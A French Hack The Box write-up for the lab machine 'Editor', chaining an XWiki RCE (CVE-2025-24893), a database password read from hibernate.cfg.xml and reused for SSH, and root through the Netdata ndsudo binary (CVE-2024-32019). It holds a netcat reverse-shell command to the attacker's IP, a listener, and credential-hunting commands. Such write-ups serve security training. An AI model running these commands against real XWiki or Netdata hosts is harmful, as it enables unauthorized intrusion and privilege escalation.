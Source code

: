 +++
draft = true
date = '2025-10-07T15:00:00+02:00'
title = "Hack The Box Editor"
description = "Write Up du challenge Editor"
authors = "Wanako"
tags = ["Hack The Box"]
categories = ["Machine", "Hack The Box", "CVE"]
+++

# Writeup - Editor

## Reconnaissance

La machine expose un site XWiki en version 1.10.8, vulnérable à une RCE (CVE-2025-24893).

---

## Initial Foothold - RCE XWiki

### Exploitation

On utilise l'exploit disponible sur GitHub :

**Terminal 1 - Exploitation**
```bash
python CVE-2025-24893.py -t 'http://editor.htb:8080' -c 'busybox nc 10.10.14.115 9001 -e /bin/bash'

[*] Attacking http://editor.htb:8080
[*] Injecting the payload...
[*] Command executed
```

**Terminal 2 - Reverse Shell**
```bash
nc -lvp 9001

Listening on 0.0.0.0 9001
Connection received on editor.htb 52616
whoami
xwiki
```

### Stabilisation du shell

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

---

## Pivot vers l'utilisateur Oliver

### Énumération

On constate la présence d'un utilisateur `oliver` dans `/home`.

### Récupération des credentials

XWiki utilise un fichier de configuration Hibernate contenant les credentials de la base de données :

```bash
find / -name "hibernate.cfg.xml" 2>/dev/null
# /etc/xwiki/hibernate.cfg.xml

cat /etc/xwiki/hibernate.cfg.xml | grep password
# <property name="hibernate.connection.password">theEd1t0rTeam99</property>
```

**Credentials trouvés :** `oliver:theEd1t0rTeam99`

### Connexion SSH

```bash
ssh oliver@editor.htb
# ✅ Connexion réussie
```

---

## Privilege Escalation vers Root

### Énumération des groupes

```bash
id
# uid=1000(oliver) gid=1000(oliver) groups=1000(oliver),999(netdata)
```

Oliver appartient au groupe **netdata** (service de monitoring système).

### Recherche de binaires SUID

```bash
find / -type f -perm -4000 -user root 2>/dev/null
```

**Résultats intéressants :**
```
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo
/opt/netdata/usr/libexec/netdata/plugins.d/ebpf.plugin
...
```

### Exploitation de ndsudo (CVE-2024-32019)

Le binaire `ndsudo` est vulnérable à une escalade de privilèges.

**Exploit disponible :** https://github.com/AzureADTrent/CVE-2024-32019-POC

```bash
# Exploitation selon le POC
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo [commande root]
```

**Résultat :** Shell root obtenu ✅

---

## Flags

```bash
cat /home/oliver/user.txt
cat /root/root.txt
```

---

## Résumé de la Kill Chain

1. **RCE XWiki** (CVE-2025-24893) → Shell `xwiki`
2. **Credentials dans hibernate.cfg.xml** → User `oliver`
3. **ndsudo SUID** (CVE-2024-32019) → Root

**GG ! 🎯**

